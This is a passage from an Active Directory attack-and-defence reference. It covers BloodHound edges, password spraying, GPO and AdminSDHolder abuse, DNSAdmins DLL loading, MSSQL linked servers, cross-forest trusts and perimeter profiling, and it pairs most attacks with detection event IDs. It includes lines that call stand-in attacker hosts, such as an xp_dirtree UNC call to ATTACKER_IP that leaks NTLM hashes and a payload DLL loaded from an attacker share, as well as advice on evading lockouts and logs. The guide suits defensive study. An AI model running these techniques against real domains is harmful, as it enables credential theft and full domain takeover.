| `WriteDacl` | Can modify the Discretionary Access Control List | Grant self `DS-Replication-Get-Changes` for DCSync |
| `WriteOwner` | Can modify the object's owner | Take ownership, then modify DACL for full control |
| `ForceChangePassword` | Can reset a user's password without knowing the old password | Password reset leading to credential takeover |
| `AddMember` | Can add members to a group | Add self to `Domain Admins` |
| `AddSelf` | Self can be added to a group | Same as AddMember but limited to self |
| `ReadLAPSPassword` | Can read LAPS-managed local administrator password | Read clear-text local admin password for workstations/servers |
| `ReadGMSAPassword` | Can retrieve Group Managed Service Account password | Impersonate gMSA to access configured resources |
| `SQLAdmin` | SQL sysadmin privilege | Command execution on SQL Server via `xp_cmdshell` |
| `CanRDP` | Remote Desktop Users group membership | Interactive RDP session on target |
| `CanPSRemote` | WinRM / PSRemoting enablement | PowerShell Remote session on target |
| `ExecuteDCOM` | DCOM execution privilege on target | Lateral movement via MMC, ShellWindows, or ShellBrowserWindow |
| `AllowedToDelegate` | Unconstrained/Constrained delegation configured | Ticket impersonation through delegation abuse |
| `HasSession` | User has an interactive session on target | Credential harvesting from LSASS on the target machine |

### Custom Cypher Queries
BloodHound's Neo4j backend supports custom Cypher queries for advanced path analysis:

```cypher
// Find shortest path from owned principals to Domain Admins
MATCH p = shortestPath((u {owned: true})-[r:MemberOf|GenericAll|GenericWrite|WriteDacl|WriteOwner|AddMember|ForceChangePassword*1..6]->(g:Group {name: "DOMAIN ADMINS@TARGET.LOCAL"}))
RETURN p

// Find all computers where Domain Admins have sessions
MATCH (u:User)-[:MemberOf*1..]->(:Group {name: "DOMAIN ADMINS@TARGET.LOCAL"})
MATCH (u)-[:HasSession]->(c:Computer)
RETURN DISTINCT u.name, c.name

// Find all Kerberoastable users with high-value group membership
MATCH (u:User {hasspn: true})
MATCH (u)-[:MemberOf*1..]->(g:Group)
WHERE g.highvalue = true
RETURN u.name, g.name
```

---

## Password Spraying: Detection Evasion & Telemetry

Password spraying distributes a small set of commonly used passwords (e.g., `Spring2024!`, `Password1`, `CompanyName@123`) across many user accounts, avoiding lockout thresholds that would trigger from brute-forcing a single account.

- **Spraying Mechanics**:
  - Enumerate user lists via LDAP, OWA, or ADFS response differentials.
  - Test one password against every enumerated account.
  - Introduce a 30–45 minute delay between attempts to stay below lockout thresholds.
  - Rotate source IP addresses per spray wave.
- **Advanced Evasion**:
  - Use Azure AD Password Spraying via the Azure AD Graph API—this bypasses on-premise Domain Controller logging entirely.
  - Utilize Kerberos pre-authentication (AS-REQ) spraying: a failed AS-REQ returns `KDC_ERR_PREAUTH_FAILED` without incrementing the `badPwdCount` attribute.
- **Defensive Telemetry**:
  - Event ID **4771** (Kerberos Pre-Authentication Failed) for a high volume of distinct usernames from a single source IP within a short window.
  - Event ID **4625** (An account failed to log on) with `Status=0xC000006A` (wrong password) aggregated across multiple accounts.
  - Azure AD Sign-In Logs: Monitor for `Error Code 50126` (Invalid username/password) distributed across many distinct usernames.

---

## Group Policy Object (GPO) Abuse

Group Policy Objects are the centralized configuration management mechanism in Active Directory, enforcing security settings, startup scripts, scheduled tasks, and software installation across domain-joined machines.

### GPO-Based Persistence
An operator with write access to a GPO that applies to Domain Controllers or critical servers can instantiate code execution.

- **Immediate Scheduled Task**: Create an immediate scheduled task within the GPO that executes a beacon payload on every GPO refresh cycle (default: 90 minutes + 0–30 min random offset).
- **Startup / Logon Script**: Modify the GPO's `Scripts/Startup` or `Scripts/Logon` extension to run an attacker-controlled PowerShell or batch script.
- **MSI Deployment**: Add an MSI package to the GPO's Software Installation policy that installs an agent/beacon the next time the machine reboots.
- **GPO Link Modification**: Link an attacker-created GPO to the Domain Controllers OU or the domain root—affecting every machine in the forest.

### Defensive Hardening: GPO Security
- Monitor Event ID **5136** (Directory Service Change) for modifications to `gPLink` and `gPOptions` attributes of OUs and domain containers.
- Audit `SYSVOL` access—new/ modified files in `\\domain.local\SYSVOL\domain.local\Policies\` indicate GPO tampering.
- Implement Advanced Group Policy Management (AGPM) for change control and approval workflows.
- Enable `Audit Directory Service Changes` subcategory (Subcategory GUID `{0CCE9240-69AE-11D9-BED3-505054503030}`).

---

## LAPS Enumeration & Abuse

Microsoft Local Administrator Password Solution (LAPS) stores unique, randomized local administrator passwords for each domain-joined computer in a confidential AD attribute (`ms-Mcs-AdmPwd`).

- **Legitimate Access**: Users with `Read Property` permission (`AllowedToRead` / `ExtendedRight`) on the `ms-Mcs-AdmPwd` attribute can read the clear-text local admin password.
- **Enumeration**:
  ```text
  # LDAP query to find all computers with LAPS passwords readable by the current user
  Get-ADComputer -Filter {ms-Mcs-AdmPwd -like '*'} -Properties ms-Mcs-AdmPwd
  ```
- **BloodHound Integration**: The `ReadLAPSPassword` edge identifies computers where the current user/group can read the LAPS password attribute. Frequently, helpdesk or workstation support groups have broad read access.
- **Attack Chaining**: Read LAPS password -> RDP/WinRM to workstation -> dump credentials from LSASS for any domain user with a session on that machine.

---

## AdminSDHolder & SDProp Abuse

The AdminSDHolder object protects privileged Active Directory accounts and groups from unauthorized access control modifications.

- **Mechanism**: The Security Descriptor Propagator (SDProp) process runs every 60 minutes on the PDC Emulator. It compares the ACL of every protected object (members of `Domain Admins`, `Enterprise Admins`, `Schema Admins`, `Administrators`, `Account Operators`, `Server Operators`, `Print Operators`, `Backup Operators`, `Cert Publishers`, `Domain Controllers`, `Read-Only Domain Controllers`, `Replicator`, and `KRBTGT`) against the `AdminSDHolder` container's ACL. Any differences are overwritten.
- **Abuse**: An attacker who modifies the AdminSDHolder's ACL (e.g., granting `GenericAll` to a compromised account) ensures that privilege propagates to all protected groups within 60 minutes—a stealthy, self-sustaining persistence technique.
- **Detection**: Event ID **5136** on the AdminSDHolder container object (distinguished name `CN=AdminSDHolder,CN=System,DC=domain,DC=local`) indicates ACL tampering. A write operation to this object by any principal other than SYSTEM or a PDC Emulator is highly suspicious.

---

## DNSAdmins Privilege Escalation

Members of the `DNSAdmins` built-in security group can load arbitrary DLLs into the DNS Server service (`dns.exe`) running on a Domain Controller.

- **Mechanics**: The DNS Server service supports server-level plugins loaded via the `ServerLevelPluginDll` registry key. A DNSAdmin member sets this registry key to point to a malicious DLL hosted on a network share (`\\attacker-ip\share\payload.dll`). When the DNS service is restarted (or the DLL is loaded via a DNS query trigger), the DLL executes with SYSTEM privileges.
- **Registry Path**: `HKLM\SYSTEM\CurrentControlSet\services\DNS\Parameters\ServerLevelPluginDll`
- **Detection**: Monitor registry modification events (Sysmon Event ID **13**) on the `ServerLevelPluginDll` value. Audit `DNSAdmins` group membership changes (Event ID **4728/4729**).

---

## Exchange On-Premises & OWA Attack Vectors

Microsoft Exchange Server integrates deeply with Active Directory and provides multiple attack surfaces for privilege escalation.

### Exchange Privilege Escalation
- **Exchange Windows Permissions Group**: Members of `Exchange Windows Permissions` possess `WriteDacl` on the domain root object. This permission enables granting `DS-Replication-Get-Changes` rights to any account—escalating directly to DCSync against the entire domain.
- **Exchange Trusted Subsystem**: This group has `GenericWrite` on all domain user objects, enabling targeted Kerberoasting and password reset attacks.
- **Organization Management**: Full control over Exchange configuration and mailboxes, with the ability to delegate mailbox access (FullAccess, SendAs, SendOnBehalf) to any domain user.
- **EWS (Exchange Web Services) Abuse**: Once an attacker has valid credentials, EWS provides programmatic access to all mailboxes. The `FindItem`, `GetItem`, and `SyncFolderItems` operations enable complete mailbox exfiltration.

### Outlook Web App (OWA) Enumeration
- **Internal IP/Name Disclosure**: OWA responses often include internal FQDN, NetBIOS names, and Outlook Anywhere external hostnames in HTTP headers and HTML source.
- **Password Spraying Target**: OWA is typically internet-facing and presents a consistent authentication interface for password spraying.
- **Legacy Protocols**: Test for Basic Authentication and legacy protocol endpoints (EWS, Autodiscover, ActiveSync, OAB, MAPI/HTTP, RPC/HTTP).

---

## MSSQL Linked Server Enumeration & Abuse

Microsoft SQL Server supports linked servers—connections to remote SQL Server instances that execute queries under a configured security context.

### Linked Server Lateral Movement
- **Enumeration**: Query `sys.servers` and `EXEC sp_linkedservers` to discover linked server configurations.
  ```sql
  SELECT name, provider, data_source, is_linked FROM sys.servers
  ```
- **Impersonation via Linked Server**:
  - If the linked server uses `EXECUTE AS LOGIN` with a high-privilege SQL login, any query executed on the remote server runs as that account.
  - If the linked server passes local credentials (`Be made using the login's current security context`), the attacker's privileges are preserved across links.
- **xp_cmdshell Execution**:
  ```sql
  EXEC ('xp_cmdshell ''whoami''') AT [LINKED_SERVER_NAME]
  ```
- **UNC Path Injection**: Force the SQL Server to authenticate to an attacker-controlled SMB server via `xp_dirtree`, leaking the service account's Net-NTLMv2 hash.
  ```sql
  EXEC master.dbo.xp_dirtree '\\ATTACKER_IP\share'
  ```

### Defensive Telemetry: MSSQL Auditing
- Enable SQL Server Audit to log `DATABASE OBJECT ACCESS GROUP` with filter on `xp_cmdshell`, `sp_addsrvrolemember`, `sp_addlinkedserver`.
- Monitor Sysmon Event ID **3** (Network Connections) for `sqlservr.exe` connecting to non-standard external IPs.
- Restrict `sysadmin` membership and enforce Windows Authentication-only mode.

---

## Cross-Forest Kerberos Attacks

Active Directory forests connected via bidirectional forest trusts extend the attack surface across organizational boundaries.

### Foreign Security Principal Abuse
When a user from Forest A accesses resources in Forest B, Forest B creates a Foreign Security Principal (FSP) object representing the external user. SID filtering (Forest SIDHistory) blocks SIDs from the SIDHistory attribute across forest trusts by default, but several bypasses exist.

- **SID Filtering Bypass**: If SID Filtering is disabled (`netdom trust TrustingDomain /domain:TrustedDomain /enablesidhistory:yes`), an attacker controlling a Domain Admin in Forest A can inject Forest B's Enterprise Admins SID into their Kerberos ticket and impersonate the Enterprise Admin in Forest B.
- **Trust Account Attack**: The inter-forest trust account (ending in `$`) has a password that rotates every 30 days by default. Extracting the trust account hash enables forging TGTs that cross the trust boundary.

### Cross-Forest Trust Exploitation Strategy
1. Enumerate forest trusts via `nltest /domain_trusts` or ADSI Edit.
2. Identify the trust direction: `Inbound` (trusted domain accesses our domain) vs `Outbound` (our users access the trusted domain).
3. For bidirectional trusts with disabled SID Filtering: compromise KRBTGT in either forest, create a Golden Ticket with the foreign forest's Enterprise Admin SID, and pivot across the trust.
4. For outbound-only trusts: enumerate users in the trusting forest who are members of the trusted forest's privileged groups—abuse the "Access this computer from the network" privilege.

---

## Defense Evasion in Network Reconnaissance

Aggressive port scanning triggers immediate alerts on modern Security Information and Event Management (SIEM) systems. Defensive evasion during scanning focuses on minimizing signature detection.

### 1. Time Domain Manipulation (Slow and Low)
Standard scanners send packets in rapid bursts. Evasion relies on extending the delay between packets to prevent threshold-based IDS triggers.
- **Mechanics**: Setting randomized intervals (jitter) between port queries. For example, sending one port probe every 5–10 minutes from a rotating IP network.

### 2. Protocol Blending
- **User-Agent Customization**: Modifying HTTP headers to match the typical software profile of the target organization (e.g., matching the specific browser versions used by corporate employees).
- **TLS Cipher Suite Alignment**: Ensuring that scanning tools utilize the identical cipher ordering and client flags as standard web browsers, avoiding default curl or Python footprints.

---

### Defensive Analysis: Beaconing & Scan Detection

Blue Teams use statistical and network flow analysis to detect low-and-slow scanning operations.

- **NetFlow / IPFIX Tracking**:
  - **Beaconing Detection**: Analyzing NetFlow data for consistent connections over long intervals (e.g., a single packet sent exactly every 60 seconds).
  - **Statistical Outliers**: Identifying external IPs that connect to multiple distinct destination ports but transfer zero payload data.
- **Sigma Detection Rule Concept**:
  ```yaml
  title: Network Scan via Port Outlier Analysis
  status: experimental
  description: Detects an external IP scanning multiple ports within a sliding window.
  logsource:
      category: firewall
  detection:
      selection:
          action: blocked
      filter:
          destination_port|count: 10
          destination_ip|count_distinct: 1
      timeframe: 5m
      condition: selection and filter
  ```

---

## Edge Device & Initial Access Profiling

External perimeter systems, such as virtual private networks (VPNs) and firewalls, serve as gatekeepers to the internal network.

### 1. Edge Device Identification
Attack surface mapping involves cataloging the model, manufacturer, and software version of all internet-facing gateways:
- **Fortinet FortiGate**: Identified via `/remote/login` or specific CSS parameters.
- **Palo Alto GlobalProtect**: Identified by specific XML schemas on `/global-protect/`.
- **Pulse Secure / Ivanti**: Identified via `/dana-na/`.

### 2. Software Vulnerability Mapping
Cross-referencing discovered edge device versions with public databases (such as the CISA Known Exploited Vulnerabilities (KEV) Catalog) provides immediate insight into organizational patching latency.

---

## Defensive Analysis: Perimeter Hardening & Threat Telemetry

Securing edge devices requires rigorous authentication, patching, and access control policies.

- **Mitigation & Defense**:
  - **Multi-Factor Authentication (MFA)**: Enforce MFA (preferably FIDO2 hardware tokens) on all external gateways.
  - **Geofencing**: Restrict access to administrative interfaces based on originating country or specific source IP ranges.
  - **Virtual Patching**: Deploy Web Application Firewalls (WAFs) configured with virtual patches for critical edge vulnerabilities while waiting for system administrators to apply vendor updates.
- **Threat Hunting Logs**:
  - Review VPN authentication logs for geographically impossible logins (e.g., a user authenticates from London and Tokyo within 30 minutes).
  - Track requests targeting unusual endpoints on edge appliances (such as `/remote/fgt_lang` or other path patterns associated with historic vulnerabilities).
